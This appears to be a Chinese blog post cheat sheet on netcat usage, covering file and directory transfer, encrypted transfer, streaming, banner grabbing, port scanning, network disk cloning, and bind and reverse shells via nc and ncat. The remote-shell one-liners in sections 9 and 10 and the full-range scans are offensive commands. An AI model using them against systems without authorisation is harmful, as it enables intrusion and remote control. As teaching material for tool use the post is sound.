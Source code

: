 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      nc使用                # 标题
subtitle:                           #副标题
date:       2020-11-23 				# 时间
author:     DYD 				    # 作者
header-img: img/post-bg-debug.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - nc
---
```


1. 传输文件
   - 接收端 nc -lp 333 > 1.mp4
   - 发送端 nc -nv 1.1.1.1 333 < 1.mp4 -q 1
   - 或
   - 发送端 nc -q 1 -lp 333 < a.mp4
   - 接收端 nc -nv 1.1.1.1 333 > 2.mp4

2. 传输目录
    - 发送端 tar -cvf - music/ | nc -lp 333 -q 1
    - 接收端 nc -nv 1.1.1.1 333 | tar -xvf -
    
3. 加密传文件 不是nc的加密功能是利用了mcrypt加密功能
    - 接收端 nc -lp 333 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > 1.mp4
    - 发送端 mcrypt --flush -Fbq -a rijndael-256 -m ecb < a.mp4 | nc -nv 1.1.1.1 333 -q 1

4. 流媒体服务器
    - 发送端 cat 1.mp4 | nc -lp 333
    - 接收端 nc -nv 1.1.1.1 333 | mplayer -vo x11 -cache 3000 -

5. 端口扫描
    - nc -nvz 1.1.1.1 1-65535
    - nc -vnzu 1.1.1.1 1-1024

6. 远程克隆硬盘
    - 接收端 nc -lp 333 | dd of=/dev/sda
    - 发送端 dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1

7. telnet / banner
    - nc -nv 1.1.1.1 110
    - nc -nv 1.1.1.1 25
    - nc -nv 1.1.1.1 80
8. 传输文本信息
    - 接收端 nc -l -p 4444
    - 发送端 nc -nv 1.1.1.1 4444
    - 发送端 ls -l | nc -nv 1.1.1.1 4444

9. 远程控制
    - 正向
    - 接收端 nc -lp 333 -c bash  //将接收端bash传递到发送端，发送端控制接收端
    - 发送端 nc 1.1.1.1 333
    - 反向
    - 发送端 nc -lp 333
    - 接收端 nc 1.1.1.1 333 -c bash //将接收端bash传递到接发送端，发送端控制接收端
    - windows下需要把bash改成cmd;
    
10. nc--ncat
    - nc缺乏加密和身份验证的能力
    - ncat包含于nmap工具包中
    - 被控制端: ncat -c bash --allow 192.168.20.14 -vnl 333 --ssl
    - 连接端: ncat -nv 1.1.1.1 333 --ssl
    - 不同系统/平台的nc参数功能不尽相同

